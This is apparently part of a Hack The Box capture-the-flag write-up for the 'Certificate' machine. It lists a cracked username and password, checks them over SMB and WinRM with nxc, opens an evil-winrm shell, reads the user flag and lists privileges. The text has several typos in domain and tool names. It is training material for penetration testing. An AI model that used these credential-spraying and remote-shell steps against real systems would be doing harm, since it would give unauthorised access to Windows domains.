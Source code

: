 **Credentials found**

- **Username:**  lion.sk
- **Password:** !QAZ2wsx

## Access a lion.sk

Using `nxc` we validated the cracked credentials against the target:
```
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$  nxc smb 10.10.11.71 -u lion.sk -p '!QAZ2wsx'
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certifite.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [+] certificate.htb\lion.sk:!QAZ2wsx 
```

And confirmed WinRM access:

``` 
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$  nxc winrm 10.10.11.71 -u lion.sk -p '!QAZ2wsx'
WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificatetb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptogphy.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\lion.sk:!QAZ2wsx (Pwn3d!)
                                        
```

and we are abe to smn and winrm

```
evil-winrm -i 10.10.11.71 -u lion.sk -p !QAZ2wsx

```

```                                                                                                                                  
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ evil-winrm -i 10.10.11.71 -u lion.sk -p !QAZ2wsx                                       
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> type ..\Desktop\user.txt
************9aaefa2c06950c8debb
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> 
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
                                    
```
